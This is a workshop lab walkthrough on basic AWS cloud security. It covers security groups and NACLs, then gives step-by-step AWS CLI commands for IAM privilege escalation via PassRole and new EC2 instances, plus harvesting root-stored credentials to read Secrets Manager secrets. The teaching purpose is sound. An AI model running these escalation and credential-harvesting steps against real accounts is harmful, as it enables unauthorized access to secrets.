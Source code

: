 # Basic cloud security
Today we will follow the tracks of a reckless engineer to read his darkest secrets. We will start on the workstation which you can find at https://lab.devopsplayground.org/

## Getting through the doors
Once you open your terminal, you can see the workdir directory with the `target-instance.txt` file where you can see a user and ip address of the server you need to log into. We will let you "guess" the password.
Assuming that you logged in succesfully we are going to stop and look at what we could do better on the account to prevent access to the server.
### Security group
We are going to start with Security groups which are attached to the instance. Allowing all traffic from any source is a dangerous practice and you should limit entries to the trusted sources and the ports actually used by the application/service.

<p align="center">
  <img src="./images/sg.png" />
</p>

Security groups are stateful therfore allowing incoming traffic allows the response.

See more in the documentation: https://docs.aws.amazon.com/vpc/latest/userguide/security-groups.html

### NACL
Network Access Control Lists allow you to manage traffic withing your VPC (applied to subnets), they are evaluated before Security groups and are stateless (You need to allow response traffic separately).

See more in the documentation: https://docs.aws.amazon.com/vpc/latest/userguide/vpc-network-acls.html

### Systems Manager
Lastly - it is worth to ask ourselves the question if allowing to access the instance via ssh is absolutely necessary. AWS allows you to use session manager for a console access to the server and use IAM to control the accesss to the instances.

See more in the documentation https://docs.aws.amazon.com/systems-manager/latest/userguide/session-manager.html

## IAM privilige escalation
### Discover availible credentials 
Once we logged in onto the ec2 instance we can discover if any IAM, API credenials are availible. Lets execute:
```bash
aws sts get-caller-identity
```
Your output should look like below:
<p align="center">
  <img src="./images/get-caller-identity.png" />
</p>
We can see that the instance assumed role dpg-funny-panda-workstation. Lets see what permissions are attached to this role. We can do this by executing:

```bash
aws iam list-attached-role-policies --role-name <your-role>
```
Your output should look like below: 

<p align="center">
  <img src="./images/list-policies.png" />
</p>

We can see one IAM policy attached to the role, lets investigate what permissions are defined in the policy.
Firs we need to look into the the policy:

```bash
aws iam get-policy --policy-arn <policy-arn>
```

Your output should look like below:

<p align="center">
  <img src="./images/get-policy.png" />
</p>

Note the default policy version and execute:

```bash
aws iam get-policy-version --policy-arn <policy-arn> --version-id <version>
```
You should see the full IAM policy and your output should start with below:

<p align="center">
  <img src="./images/instance-policy.png" />
</p>

The above policy allows us ec2 actions as as to pass secret-read-role. Lets investigate what policies this role has and what permissions are defined for this role. Lets execute three commands below
```
aws iam list-attached-role-policies --role-name secret-read-role
aws iam get-policy --policy-arn arn:aws:iam::204521158369:policy/get-playground-secret
aws iam get-policy-version --policy-arn arn:aws:iam::204521158369:policy/get-playground-secret --version-id v1
```
Your last output should look like
<p align="center">
  <img src="./images/secret-policy.png" />
</p>

Before getting any further, we can see that we will be constraint to `eu-west-1` region therfore we can setting it as default by executing

```bash
aws configure
```
You can skip first two entries by pressing enter and only add default region like below:

<p align="center">
  <img src="./images/configure.png" />
</p>


We can see that the policy allows us to read one of the secrets on the account. To do so we can create a new EC2 instance and attach secret-read-role to the instance profile and once we connect to the new server read the secret. 

First, lets create a new key-pair:

```bash
aws ec2 create-key-pair --key-name your-panda --query 'KeyMaterial' --output text > ~/<your-panda>
```

Now lets find out more about our current instance to deploy our new server in the same network. We can find our instance ID by executing:
```
aws sts get-caller-identity
```
Once we grab the id we can execute:
```bash
aws ec2 describe-instances --instance-ids <instance-id>
```
Your output should be a JSON file with the instance configuration like below.

<p align="center">
  <img src="./images/ec2.png" />
</p>

Note the the AMI ID, Security group id, and subnet ids, next lets create a new EC2 instance with the command below:
```bash
aws ec2 run-instances \
    --image-id <ami-id> \
    --count 1 \
    --instance-type t2.micro \
    --key-name <your-panda> \
    --security-group-ids <security-group-id> \
    --subnet-id <subnet-id> \
    --block-device-mappings "[{\"DeviceName\":\"/dev/sdf\",\"Ebs\":{\"VolumeSize\":30,\"DeleteOnTermination\":false}}]" \
    --tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=<your-panda>}]' 'ResourceType=volume,Tags=[{Key=Name,Value=<your-panda>-disk}]'
```
Once your new instance is created - note its IP address. Next lets create an instance profile.
```bash
aws iam create-instance-profile \
 --instance-profile-name <your-panda>
```
and attach the role to the profile
```bash
aws iam add-role-to-instance-profile \
--instance-profile-name <your-panda> \
--role-name secret-read-role
```
And finally associate the profile with our instance:
```bash
aws ec2 associate-iam-instance-profile --iam-instance-profile Name=<your-panda> --instance-id <instance-id>
```
Now our new server is ready to be used. Lets modify the permissions of our key before we use it to ssh to the server

```bash
chmod 400 ~/.ssh/<your-panda>
```
And ssh to the target server:

```bash
ssh ec2-user@<server-ip> -i ~/.ssh/<your-panda>
```
Once logged in we can try our last command:

```bash
aws secretsmanager get-secret-value --secret-id playground-secret
```

## OS privilage escalation + API keys
So we managed to read one of the secrets, but there is still one more around the corner. Lets get back to our target instance and see if our user is added to the sudoers list.
```bash
sudo su
```
Now once we are a root user lets try:

```bash
aws sts get-caller-identity
```
You should notice that this time we assumed a different AWS entity, AWS user, like below

<p align="center">
  <img src="./images/root.png" />
</p>

It looks like there are locally stored credentials for the root user which take precedence over attached role. We can confirm that by trying

```bash
env | grep AWS
```
Now lets see what permissions we have attached to this user.

```bash
aws iam list-attached-user-policies --user-name <username>
```
Looks like there are no policies attached:
<p align="center">
  <img src="./images/user-policies.png" />
</p>
Lets see if user has any inline policy then.

```bash
aws iam list-user-policies --user-name <username>
```
<p align="center">
  <img src="./images/user-inline.png" />
</p>
There is an inline policy attached to this user - let's investigate further

```bash
aws iam get-user-policy --user-name <username> --policy-name <policyname>
```
You should notice a familiar statement in the policy
<p align="center">
  <img src="./images/user-secret.png" />
</p>
Lastly lets reveal the last part be executing:

```bash
aws secretsmanager get-secret-value --secret-id User_secret
```